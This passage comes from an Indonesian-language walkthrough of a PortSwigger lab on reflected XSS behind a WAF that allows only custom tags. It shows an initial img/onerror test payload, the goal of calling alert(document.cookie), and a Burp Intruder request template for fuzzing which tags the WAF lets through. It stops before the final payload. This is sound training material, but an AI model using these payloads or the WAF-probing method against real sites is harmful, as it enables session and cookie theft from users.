 # Reflected XSS dalam Konteks HTML dengan Semua Tag Diblokir Kecuali Tag Kustom

Lab ini mengandung kerentanan **Reflected Cross-Site Scripting (XSS)** pada fungsi pencarian, namun dilindungi oleh **Web Application Firewall (WAF)** yang memblokir semua tag HTML kecuali tag kustom. 

Untuk menyelesaikan lab ini, Anda perlu melakukan serangan cross-site scripting yang menyuntikkan tag kustom dan secara otomatis memanggil fungsi `alert(document.cookie)`.

---------------------------------------------

## Referensi:

- [PortSwigger: Contexts in XSS](https://portswigger.net/web-security/cross-site-scripting/contexts)
- [PortSwigger: XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

---------------------------------------------

## Langkah-Langkah Eksploitasi

### 1. Mengidentifikasi Kerentanan Reflected XSS pada Fungsi Pencarian

Pertama, kita perlu memastikan bahwa terdapat kerentanan XSS pada fungsi pencarian. Konten pencarian akan direfleksikan di dalam elemen `<h1>` HTML.

**Payload Awal untuk Menguji XSS:**

```html
<img src=1 onerror=print()>
```

**Pengamatan:** Payload ini diblokir oleh WAF.

![Langkah 1](images/Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones/1.png)

### 2. Menggunakan Burp Intruder untuk Menguji Tag dan Atribut yang Diblokir

Kita akan menggunakan **Burp Suite Intruder** untuk menguji tag dan atribut mana yang diblokir oleh WAF.

#### a. Mengirim Permintaan GET dengan Payload Posisi

Kirim permintaan GET berikut menggunakan Burp Suite:

```plaintext
GET /?search=<§§> HTTP/2
Host: 0aea005104d1419c805a3fe60055007f.web-security-academy.net
Cookie: session=9FSUj13f4MvEvCHHqnpyuvyXNGkFU3de
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
```